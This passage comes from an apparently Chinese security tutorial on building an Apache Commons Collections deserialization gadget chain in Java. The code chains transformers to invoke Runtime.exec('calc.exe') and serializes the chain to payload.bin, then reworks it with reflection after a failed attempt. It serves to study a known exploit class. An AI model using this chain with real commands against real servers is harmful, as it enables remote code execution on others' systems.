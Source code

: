 ```java

        //构造Transformers数组
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"))),
                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc.exe"})
        };

        //用ChainedTransformer封装构造好的Transformers数组，也就是让构造好的数组等于this.iTransformers
        Transformer transformerChain=new ChainedTransformer(transformers);

        //序列化
        FileOutputStream f=new FileOutputStream("payload.bin");
        ObjectOutputStream fout=new ObjectOutputStream(f);
        fout.writeObject(transformerChain);

    }
}
```

执行失败

[![RDxDPA.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-da1d4c24a3f0120dabbf480ff31d94e968fcfd48.png)](https://imgtu.com/i/RDxDPA)

换一种思路，有没有可能利用反射直接在服务器生成一个Runtime实例？

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {

        //构造transformers
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getRuntime",new Class[]{},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc.exe"})
        };

        Transformer transformerChain=new ChainedTransformer(transformers);

        transformerChain.transform(null);
    }
}
```
